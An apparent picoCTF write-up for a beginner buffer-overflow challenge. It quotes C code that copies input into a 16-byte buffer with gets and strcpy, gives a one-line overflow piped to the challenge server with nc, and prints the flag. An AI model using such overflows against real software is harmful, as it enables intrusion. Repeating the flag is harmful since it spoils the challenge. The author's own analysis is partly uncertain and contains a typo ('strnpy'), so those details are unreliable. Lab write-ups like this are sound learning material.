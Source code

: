 ## Current progress: Done

An unstripped ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

Digging deeper with `objdump -t`. I think that it is because the buffer overflows from the `completed.7623` shown here:
![objdump](objdump.jpg)
However, I'm not a 100% sure if this is the correct assumption.

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net [port]`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`